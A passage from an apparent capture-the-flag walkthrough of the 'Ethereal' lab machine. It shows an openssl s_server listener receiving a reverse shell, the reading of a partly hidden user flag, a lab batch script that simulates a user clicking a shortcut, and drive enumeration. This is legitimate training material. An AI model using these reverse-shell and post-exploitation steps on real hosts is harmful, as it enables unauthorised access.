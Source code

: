     
    
    root@kali# openssl s_server -quiet -key key.pem -cert cert.pem  -port 136
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.
    
    C:\Users\jorge\Documents>whoami
    ethereal\jorge
    

And from there, I can get `user.txt`:

    
    
    C:\Users\jorge\Desktop>type user.txt
    2b9a4ca0...
    

I can also see the script that is running as jorge to click on the lnk. It
starts a loop over sleeping for 5 seconds (via `ping`, since there’s no good
sleep function in cmd), then running the lnk file. Then it sleeps another 5
seconds, then replaced the link with a clean copy. It sleeps another 50
seconds, and then kills `devenv.exe`, so that when the clean lnk is there,
there aren’t tons of processes running.

    
    
    C:\Users\jorge\Documents>type open-program.bat
    @echo off
    
    :loop
    
    echo opening program
    
    PING localhost -n 5 >NUL
    
    START /MIN "" cmd /c "C:\Users\Public\Desktop\Shortcuts\Visual Studio 2017.lnk" && PING localhost -n 5 >NUL && copy /Y "C:\Users\jorge\Documents\Visual Studio 2017.lnk" "C:\Users\Public\Desktop\Shortcuts\Visual Studio 2017.lnk" && PING localhost -n 50 >NUL && taskkill /F /IM devenv.exe
    
    cls
    
    GOTO loop
    
    

## Shell as rupal

### Enumeration

If I look at the drives on the host, I can see a new one:

    
    
    C:\Users\jorge\Documents>fsutil fsinfo drives
    
    Drives: C:\ D:\ 
    

Going into `D:\`, I’ll see a `D:\Certs` directory:

    
    
    D:\Certs>dir
     Volume in drive D is Development
     Volume Serial Number is 54E5-37D1
    